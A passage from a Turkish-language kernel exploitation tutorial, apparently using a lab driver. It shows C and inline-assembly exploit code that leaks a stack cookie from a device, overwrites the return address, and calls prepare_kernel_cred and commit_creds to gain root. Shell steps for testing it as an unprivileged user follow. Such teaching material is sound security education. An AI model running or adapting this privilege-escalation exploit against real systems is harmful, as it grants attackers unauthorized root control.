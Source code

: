 ```c
    // prepare_kernel_cred'in adresini önceki gibi rax'a taşıyoruz
    "movabs rax, 0xffffffff81094a50;"
    
    // rdi register'ını 0 yani NULL olarak ayarlıyoruz
    // bu prepare_kernel_cred'in ilk parametresi
    "mov rdi, 0;"
  
    // prepare_kernel_cred'i çağrıyoruz
    "call rax;"

    // prepare_kernel_cred'in dönüş değerini rdi'a yazıyoruz
    // bu şekilde artık commit_creds'in ilk parametresi yeni 
    // cred struct objesine işaret ediyor
    "mov rdi, rax;"
  
    // rax'a commit_creds'in adresini yazıyoruz
    "movabs rax, 0xffffffff810947b0;" 

    // commit_cred'i çağrıyoruz
    "call rax;"
    
    ".att_syntax;"
    );

}

int main()
{

    int fd = open(DEVICE, O_RDWR);

    unsigned long w[3];
    unsigned long r[5];

    bzero(w, sizeof(w));
    bzero(r, sizeof(r));
    
    read(fd, r, sizeof(r));
    for(int i = 0; i < sizeof(r)/8; i++){
        printf("Reading (%d): %lx\n", i, r[i]);
    }
    printf("Cookie leaked! %lx\n", r[4]);

    w[0] = 0; // local buffer 
    w[1] = 0; // stack cookie 

    // burdaki adresi bu sefer root fonksiyonun adresi ile değiştirdik
    w[2] = (unsigned long)root; // return address 

    puts("Writing payload to "DEVICE);
    write(fd, w, sizeof(w));

    close(fd);

}
```
Hadi exploitimizi test etmek adına sistemde root olmayan yeni bir kullanıcı oluşturup derlediğimiz 
exploiti bu kullanıcı olarak çalıtştıralım:
```
useradd -m user
cp exploit /home/user/exploit 
chown user:user /home/user/exploit
su user
```